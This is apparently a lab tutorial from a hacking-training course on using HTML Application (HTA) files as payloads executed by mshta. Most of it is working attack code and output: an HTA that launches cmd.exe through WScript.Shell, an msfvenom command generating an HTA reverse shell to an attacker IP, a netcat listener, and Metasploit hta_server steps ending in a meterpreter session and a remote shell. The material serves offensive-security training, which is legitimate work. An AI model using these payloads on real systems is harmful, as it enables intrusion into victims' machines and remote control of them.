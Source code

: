 # An HTML Application (HTA)

HTA stands for “HTML Application.” It allows you to create a downloadable file that takes all the information regarding how it is displayed and rendered. HTML Applications, also known as HTAs, which are dynamic HTML pages containing JScript and VBScript. The LOLBINS (Living-of-the-land Binaries) tool `mshta` is used to execute HTA files. It can be executed by itself or automatically from Internet Explorer.

## Proof of Concept: Executing cmd.exe

In the following example, we will use an `ActiveXObject` in our payload as proof of concept to execute `cmd.exe`. Consider the following HTML code:

```html
<html>
<body>
<script>
	var c= 'cmd.exe'
	new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```

Then serve the `payload.hta` from a web server. This could be done from the attacking machine as follows:

```bash
user@machine$ python3 -m http.server 8090
Serving HTTP on 0.0.0.0 port 8090 (http://0.0.0.0:8090/)
```

On the victim machine, visit the malicious link using Microsoft Edge:

```
http://10.8.232.37:8090/payload.hta
```

Note that `10.8.232.37` is the AttackBox's IP address.

Once we press **Run**, the `payload.hta` gets executed, and then it will invoke `cmd.exe`.

---

## HTA Reverse Connection

We can create a reverse shell payload as follows:

```bash
user@machine$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.232.37 LPORT=443 -f hta-psh -o thm.hta
```

Output:

```
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of hta-psh file: 7692 bytes
Saved as: thm.hta
```

We use `msfvenom` from the Metasploit framework to generate a malicious payload to connect back to the attacking machine. 

On the attacking machine, we need to listen to port 443 using `nc`. Note that this port requires root privileges, or you can use a different one:

```bash
user@machine$ sudo nc -lvp 443
listening on [any] 443 ...
```

Once the victim visits the malicious URL and hits **Run**, we get the connection back:

```
10.8.232.37: inverse host lookup failed: Unknown host
connect to [10.8.232.37] from (UNKNOWN) [10.10.201.254] 52910
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\thm\AppData\Local\Packages\Microsoft.MicrosoftEdge_8wekyb3d8bbwe\TempState\Downloads>
ipconfig
```

---

## Malicious HTA via Metasploit

Another way to generate and serve malicious HTA files is using the Metasploit framework. First, run Metasploit:

```bash
msfconsole -q
```

Use the `exploit/windows/misc/hta_server` module:

```bash
msf6 > use exploit/windows/misc/hta_server
msf6 exploit(windows/misc/hta_server) > set LHOST 10.8.232.37
LHOST => 10.8.232.37
msf6 exploit(windows/misc/hta_server) > set LPORT 443
LPORT => 443
msf6 exploit(windows/misc/hta_server) > set SRVHOST 10.8.232.37
SRVHOST => 10.8.232.37
msf6 exploit(windows/misc/hta_server) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(windows/misc/hta_server) > exploit
```

Output:

```
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 10.8.232.37:443
[*] Using URL: http://10.8.232.37:8080/TkWV9zkd.hta
[*] Server started.
```

On the victim machine, visiting the malicious HTA file results in a reverse connection:

```bash
[*] 10.10.201.254    hta_server - Delivering Payload
[*] Sending stage (175174 bytes) to 10.10.201.254
[*] Meterpreter session 1 opened (10.8.232.37:443 -> 10.10.201.254:61629)
msf6 exploit(windows/misc/hta_server) > sessions -i 1
[*] Starting interaction with 1...
```

### Checking System Information

```bash
meterpreter > sysinfo
Computer        : DESKTOP-1AU6NT4
OS              : Windows 10 (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x86/windows
```

### Opening a Shell

```bash
meterpreter > shell
Process 4124 created.
Channel 1 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\app>